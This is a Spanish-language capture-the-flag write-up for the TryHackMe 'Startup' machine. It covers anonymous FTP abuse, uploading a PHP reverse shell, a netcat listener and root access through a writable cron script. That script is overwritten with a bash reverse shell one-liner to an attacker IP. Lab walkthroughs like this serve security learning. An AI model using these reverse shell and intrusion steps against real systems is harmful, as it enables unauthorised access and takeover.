 ###Startup

Hola gente!
Este es mi primer "write-up", espero qu elo disfruten.
(Little note for a friend, Esqy thank you for the motivation into making this write-up, I hope I can make more in the future.)
Bueno empezemos!
Primero hacemos un rapido scan con Rustscan, un Nmap mas rapido creado por Bee-san.
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos 3 servicios en esta maquina.
Primero veremos el ftp.
Al parecer este servicio este FTP dejo abierto el login anonimo.
```
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```
Encontramos 2 archivos en esta maquina.
En notice.txt para ser que estan jugando Among Us en la oficina.
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
En el important.jpg parece ser que algunos miembros del equipo se estaban divirtiendo con unos memes.
![meme](https://github.com/Believer1/THM-writeups/blob/main/startup/images/important.jpg)

Ahora emepzemos a buscar directorios en el website
```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.199.203
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/23 12:49:11 Starting gobuster
===============================================================
/files (Status: 301)
```

![files](https://github.com/Believer1/THM-writeups/blob/main/startup/images/files.png)


Hmmmm... que raro. Son los mismos archivos que en el FTP. Seran que estan conectados?

Para probar esto subire una "reverse shell" en PHP hecha por PentestMonkey
```
ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Cambiamos el ip por el nuestro del "network" de TryHackMe.
```
ftp> put reverse.php 
local: reverse.php remote: reverse.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
```
Y lo ponemos en el FTP.
```
nc -nlvp 1234
listening on [any] 1234 ...
```
Empezamos un "listener" con NetCat.

![reverse](https://github.com/Believer1/THM-writeups/blob/main/startup/images/reverse.png)
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Ahi esta! Conseguimos un "shell".

Usando Linpeas hay unos archivos que me resaltan.
Encontramos un archivo llamado recipe.txt
```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <redactado>
```
Encontramos nuestro primera respuesta.
Ahora pasamos el segundo archivo que es un .pcapng usando el servicio de FTP.
```
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
Vemos en wireshark un trafico interesante que revela detalles interesantes.
```www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: <redactado>
```
Cambiamos de usuario y cogemos el segundo flag.
Usando Linpeas encontramos otro archivo /etc/print.sh.
Re-escribimos el archivo con un "reverse shell" en Bash
```bash -i >& /dev/tcp/IP/8888 0>&1```
Esperamos un tiempo ya que esto es una accion programada por el usuario root.
```
root@startup:~# whoami
whoami
root
root@startup:~# 
```
Conseguimos root!
Agarramos el flag en /root/root.txt y completamos la maquina!

Gracias por leer mi primer write-up espero que les ha gustado.
